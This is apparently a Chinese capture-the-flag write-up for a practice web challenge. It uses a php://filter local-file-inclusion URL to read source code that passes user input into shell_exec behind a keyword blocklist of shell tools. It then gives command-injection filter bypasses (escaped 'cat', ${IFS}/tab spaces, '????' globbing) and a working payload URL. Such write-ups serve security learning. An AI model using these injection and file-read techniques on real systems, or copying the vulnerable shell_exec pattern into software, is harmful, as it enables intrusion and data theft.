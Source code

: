 # 白帽子寻宝记

## 端午就该吃粽子

- dirsearch扫描了一下有login.php
- 发现url为:`http://www.bmzclub.cn:22183/login.php?zhongzi=snow.php`
- php伪协议读取`http://www.bmzclub.cn:22183/login.php?zhongzi=php://filter/read=convert.base64-encode/resource=index.php`
- base64解码如下:
```php
<?php
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|]|&| |python|sh|nc|tac|rev|more|tailf|index|php|head|nl|sort|less|cat|ruby|perl|bash|rm|cp|mv|\*)/i", $ip)){
      die("<script language='javascript' type='text/javascript'>
      alert('no no no!')
      window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
      die("<script language='javascript' type='text/javascript'>
      alert('no flag!')
      window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo $a;
}
?>
```

- cat绕过: c\a\t
- 空格绕过: ${IFS},%09
- flag绕过：????

- payload: 1|c\a\t%09/????

```
http://www.bmzclub.cn:22183/index.php?url=1|c\a\t%09/????
```